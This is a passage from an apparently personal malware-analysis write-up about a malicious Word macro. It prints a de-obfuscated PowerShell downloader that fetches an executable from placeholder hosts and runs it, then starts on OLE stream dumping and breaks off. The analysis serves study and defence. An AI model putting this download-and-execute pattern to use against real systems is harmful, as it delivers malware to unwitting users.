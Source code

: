 ## A PowerShell payload

Not really knowing what to do next, I decided to give the `strings` command a
try and found a very large string that looked like a bas64-encoded string.
I piped this string to `base64 -d` and got some PowerShell instructions in
return. Yay!

```powershell
$XvmIXvo='t6jTbM';$PbDL43 = '71';$uj6EVuv='L8KMkkX'; [...]
```

Given that I was stuck with the VBA macro, I decided to clean the PowerShell
[payload](https://en.wikipedia.org/wiki/Payload_(computing)) to better
understand it. There were unused variables and weird PowerShell-allowed calls.
Below is the PowerShell script rewritten to be more readable:

```powershell
# `$env:userprofile` returns the full path of the profile directory.
$pathToExe = $env:userprofile+'\71.exe';

$webClient = New-Object Net.WebClient;

# List of URLs pointing to a program to download
$urls = [
    http://some.example.com/folder-123/,
    http://another.example.com/folder-456/,
]

foreach ($url in $urls) {
    try {
        # Try to download a program...
        $webClient.DownloadFile($url, $pathToExe);

        # if it worked, then...
        If ((Get-Item $pathToExe).length -ge 24103) {
            # run it!
            Invoke-Item $pathToExe;
            break;
        }

        # otherwise, keep trying.
    } catch {
    }
}
```

This PowerShell script is a **downloader**: its job is to download a malicious
program, nothing more. I still did not know how this script was executed by the
macro though.

## OLE dump

I searched for a tool able to dump an OLE stream from a `.doc` file
and discovered [oledump.py](https://blog.didierstevens.com/programs/oledump-py/).
Analyzing the different sections, I found interesting data that I dumped as ASCII:
